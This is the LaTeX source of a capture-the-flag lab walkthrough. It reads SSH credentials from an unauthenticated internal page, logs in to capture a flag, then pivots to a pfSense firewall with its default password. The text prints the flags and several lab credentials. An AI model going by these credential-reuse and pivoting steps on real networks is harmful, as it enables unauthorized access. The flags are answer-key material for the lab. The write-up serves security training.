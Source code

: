 \documentclass[a4paper, 12pt]{article}
\newcommand{\flag}[1]{%
  \begin{mdframed}[backgroundcolor=flagcolor!10, linecolor=flagcolor, linewidth=1.5pt]
  \textbf{\color{flagcolor}FLAG CAPTURED:} \texttt{#1}
  \end{mdframed}
}
\begin{document}
\begin{lstlisting}
$ curl -s http://lab1/pebcak.html
<!DOCTYPE html>
<html><head><title>PEBCAK Corp -- Internal</title></head>
<body>
  <h2>Maintenance Access</h2>
  <table>
    <tr><td>Protocol</td><td>SSH</td></tr>
    <tr><td>Host</td><td>lab1</td></tr>
    <tr><td>User</td><td>blackmesa</td></tr>
    <tr><td>Password</td><td>!Bl4kM3s$</td></tr>
  </table>
</body>
</html>
\end{lstlisting}

\textbf{Finding:} SSH credentials on an unauthenticated internal page.

\section{Step 3 -- SSH Initial Access (Flag 1)}

\begin{lstlisting}
$ ssh blackmesa@lab1
blackmesa@lab1's password: !Bl4kM3s$

blackmesa@pebcak:~$ cat ~/flag.txt
FLAG{p3bc4k_s3rv3r_0wn3d}

-- PEBCAK Corp Internal Credentials --
Firewall management access:
  Host     : 172.16.0.1
  Protocol : SSH / Web UI
  User     : admin
  Password : pfsense
\end{lstlisting}

\flag{FLAG\{p3bc4k\_s3rv3r\_0wn3d\}}

\textbf{Note:} The flag file also reveals firewall credentials -- this is
intentional and leads to Step 4.

\section{Step 4 -- Pivot to Firewall (Flag 2)}

From the Server, use the credentials found in \texttt{flag.txt}:

\begin{lstlisting}
blackmesa@pebcak:~$ ssh admin@172.16.0.1
admin@172.16.0.1's password: pfsense

[2.7.2-RELEASE][admin@pfSense.localdomain]/root: cat /root/flag.txt
FLAG{d3f4ult_cr3ds_k1ll_s3cur1ty}

-- Network inventory --
Workstation found on internal network:
  Host     : 192.168.10.50
  User     : skynet
  Password : Sk1n3t
\end{lstlisting}
\end{document}
